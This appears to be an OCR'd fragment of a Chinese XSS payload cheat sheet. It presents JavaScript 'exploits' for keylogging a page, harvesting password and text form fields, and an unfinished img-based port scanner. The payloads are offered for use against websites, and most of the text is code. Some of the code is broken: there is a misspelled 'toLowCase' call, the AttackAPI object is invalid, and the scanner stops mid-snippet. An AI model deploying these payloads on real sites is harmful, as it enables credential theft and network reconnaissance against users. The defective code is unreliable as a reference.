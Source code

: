   * 键盘记录器
  exploit：
  ```js
  <script>
  function keyDown(){
  var keycode=event.keyCode;
  var realkey=String.fromCharCode(event.keyCode);
  alert("按键码："+keycode+"字符："+realkey);
  }
  document.onkeydown=keyDown;
  </script>
  ```
  
  * 遍历form表单抓取重要字段值
  exploit：
  ```js
  function grabber(){
  F=document.forms;
  for(var j=0;j<F.length;++j){
  f=F[j];
  for(i=0;i<f.length;++i){
  if(f[i].type.toLowerCase()=="password"){
  alert("Password:"+f[i].value)
  }
  else if(f[i].type.toLowCase()!="submit"){
  alert("Text:"+f[i].value)
  }
  }
  }
  }
  ```
  
### 【客户端信息刺探】

* **javascript实现端口扫描**
  * 原理
  利用img.src属性，对远程服务器发送img请求，如果img属性onerror返回错误则端口开放，如果链接超时则端口关闭
  
  * exploit：
  ```js
  <form>
  <label for="target">target</label><br/>
  <input type="text" name="target" value="eg:www.baidu.com"><br/>
  <label for="port">port</label><br/>
  <label for="timeout">timeout</label><br/>
  <input type="text" name="timeout" value="1000"/><br/>
  <label for="result">result</label><br/>
  <textarea id="result" name="result" rows="7" cols="50"></textarea><br/>
  <input class="button" type="button" value="scan" onClick="javascript:scan(this.form)" />
  </form>
  
  <script>
  var AttackAPI={
     AttackAPI.PortScanner={}
     AttackAPI.PortScanner.scanPort=function(callback,target,port,timeout){
            var timeout=(timeout==null)?100:timeout;
            var img=new Image();
  
            img.onerror=function(){
                  if(!img) return;
                  img=undefined;
                  callback(target,port,'open');
            };
            
            img.onload=img.onerror;
            img.src='http://'+target+':'+port;
  ```